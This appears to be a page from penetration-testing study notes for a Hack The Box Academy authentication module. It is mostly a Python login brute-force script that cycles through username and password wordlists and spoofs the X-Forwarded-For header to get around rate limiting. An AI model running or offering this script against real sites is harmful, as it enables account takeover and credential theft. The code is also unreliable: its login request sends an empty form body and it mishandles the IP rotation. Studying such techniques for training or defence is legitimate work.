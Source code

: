 # Log In Page

<div class="row row-cols-lg-2"><div>

#### Log In Page — Rate Limit

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Some websites are implementing a rate timer often using a super increasing wait time. If they are checking the `X-Forwarded-For` to avoid blocking proxies, it means we can arbitrary pick an IP to "ban".

```py
import argparse
import time
import requests

parser = argparse.ArgumentParser(description='Login Brute Force Script')
parser.add_argument('-u', '--userlist', dest='users', required=True, help='Path to the wordlist of usernames')
parser.add_argument('-p', '--passlist', dest='passwords', required=True, help='Path to the wordlist of passwords')
args = parser.parse_args()

with open(args.users, 'r') as f:
    users = [line.strip() for line in f.readlines()]

with open(args.passwords, 'r') as f:
    passwords = [line.strip() for line in f.readlines()]
```
</div><div>

```py
s = requests.Session()
ip_offset = 1
base_ip = '0.0.0.'
for user in users:
    for password in passwords:
        while True:
            response = s.post(
                url='URL/login.php',
                data={
                },
                headers={
                    'X-Forwarded-For': base_ip + str(ip_offset)
                }
            )
            if 'Invalid credentials' in response.text:
                print(f"[-] Failed with {user}:{password}")
                break
            elif 'Too many login failures' in response.text:
                time.sleep(30)
            elif 'Welcome back' in response.text:
                print(f"[+] Found credentials {user}:{password}")
                break
            else:
                print(f"[!] Unexpected reply for {user}:{password}")
                print(response.text)
                break

            ip_offset += 1
```

</div></div>